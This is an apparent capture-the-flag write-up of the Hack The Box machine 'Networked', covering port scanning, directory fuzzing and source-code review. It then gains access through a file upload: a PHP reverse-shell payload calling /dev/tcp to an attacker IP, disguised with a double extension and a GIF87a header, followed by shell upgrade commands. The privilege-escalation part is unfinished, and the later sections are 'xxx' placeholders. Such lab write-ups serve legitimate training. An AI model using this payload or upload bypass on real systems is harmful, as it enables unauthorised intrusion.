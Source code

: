 # Networked

**Links:** [1](https://www.hackthebox.com/machines/Networked)  [2](https://app.hackthebox.com/machines/Networked)

**Machine ip:** 10.10.10.146

![networked](https://github.com/h4md153v63n/CTFs/assets/5091265/92cd2294-7d07-497d-8f0d-7ed00d4d5c9f)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.146 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.146 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/75a583b5-e3f7-4d7d-bc33-12c1747da5ec)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.4
Port tcp 80: Apache httpd 2.4.6
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.146/`, and see the text.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dfa167a8-c0a2-414c-8dd2-278a62540c7c)

+ Viev page source, and take note of **upload** with **gallery** paths.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a06ac56d-8266-4ee5-99e1-96d5284435cc)

+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/ -k -n -x html,php,txt -r -t 30
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/360da068-3dd3-412f-80f2-5b85dd3d5ae4)

+ Visit **upload.php** page.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/02cf635c-1554-499f-a6ce-f996bf402e30)

+ Next, visit the **backup** directory. It contains a compressed file **backup.tar**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6e294d32-8a7e-4eda-9d1f-28aca1301525)

+ Download the file and decompress it: `tar xvf backup.tar -C backup/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ba492160-c355-46dd-bc06-b00b24a19f43)

+ It contains the source code of the php scripts running on the web server.
+ Check the code of **upload.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0d3c93b1-9f06-44ee-90ad-e9343923f5f9)

+ Check the code of **lib.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8475de9-9279-40ed-9af0-2ed8d1f9653c)


## Gaining Access
+ Create a reverse shell **.php** file as **shell.php**, and then add one more extension as **.png** after **.php**. 
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1'"); ?>
```

+ Change mimetype adding `GIF87a`.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53636d84-a81d-4051-a7ce-664e846b9855)

+ Upload it using browse button, and go.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73fb950b-5722-4dd5-8f09-b12bb67e1677)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ Go to the **http://10.10.10.146/photos.php** that is discovered on the first directory fuzzing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/938b2b01-5334-437a-8769-5de7d1585d15)

+ Get low level shell, and see the **web daemon user (www-data)**'s privilege is **not** enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7e030c55-ccc1-4d2d-987e-aae574a007fb)


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a949dd60-e50c-4d98-8c1b-93ff60a0657c)


## Privilege Escalation: from 'www-data' to 'guly'
+ Escalate privileges to get the user flag.
+ Go to **/home/guly** directory, and list files.
+ **crontab.guly** file is interesting, and it runs **/home/guly/check_attack.php** every three minutes.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9b76943a-d7c7-486e-a01e-c019c359b3e5)






# Technical Knowledge
+ xxx


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#Networked
+ https://0xdf.gitlab.io/2019/11/16/htb-networked.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/networked-writeup-w-o-metasploit
+ xxx


# For More
+ xxx
